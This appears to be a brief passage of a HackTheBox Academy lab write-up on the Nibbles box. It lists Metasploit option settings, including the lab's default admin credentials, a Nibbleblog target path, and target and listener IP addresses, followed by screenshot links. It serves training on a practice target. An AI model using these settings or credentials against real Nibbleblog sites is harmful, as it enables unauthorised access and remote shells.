 set USERNAME admin
set PASSWORD nibbles
set TARGETURI /nibbleblog/
set RHOSTS 10.129.80.105
set LHOST 10.10.15.192

![alt text](../assets/images/HTB_Academy_Getting_Started/image-39.png)


![alt text](../assets/images/HTB_Academy_Getting_Started/image-40.png)

![alt text](../assets/images/HTB_Academy_Getting_Started/image-41.png)
